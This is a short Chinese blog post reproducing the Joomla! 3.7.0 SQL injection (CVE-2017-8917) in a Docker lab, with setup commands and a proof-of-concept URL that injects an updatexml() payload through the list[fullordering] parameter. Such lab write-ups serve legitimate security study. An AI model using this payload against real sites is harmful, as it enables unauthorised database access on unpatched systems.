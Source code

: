 ```yaml
---
title: Joomla! 3.7.0 Core SQL Injection (CVE-2017-8917)
category: 
- 渗透测试
tags: 
- Docker
- 漏洞复现
---
```


### 漏洞概述

- [影响版本](https://www.joomla.org/announcements/release-news/5705-joomla-3-7-1-release.html]%EF%BC%89%EF%BC%8C%E6%9C%AC%E6%AC%A1%E6%9B%B4%E6%96%B0%E4%B8%AD%E4%BF%AE%E5%A4%8D%E4%B8%80%E4%B8%AA%E9%AB%98%E5%8D%B1SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88)
- Joomla! 3.7.0 版本存在SQL注入漏洞，攻击者可以在未授权的情况下进行SQL注入

### 镜像信息

![image-20201201141814027](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201201141814027.png)

### 漏洞环境搭建

- 拉取镜像到本地

```bash
$ docker pull medicean/vulapps:j_joomla_2
```

- 启动环境

```bash
$ docker run -d -p 8000:80 medicean/vulapps:j_joomla_2
```

<!-- more -->

### 漏洞利用

- 访问 `http://你的 IP 地址:端口号/`

### 利用过程

- 启动kali
- 使用docker搭建漏洞环境
- 访问 `[http://你的](http://xn--6qq176g/) IP 地址:端口号/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x3a,concat(1,(select%20md5("admin"))),1)`

![image-20201201142646353](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201201142646353.png)

### 参考链接

[references](https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html)
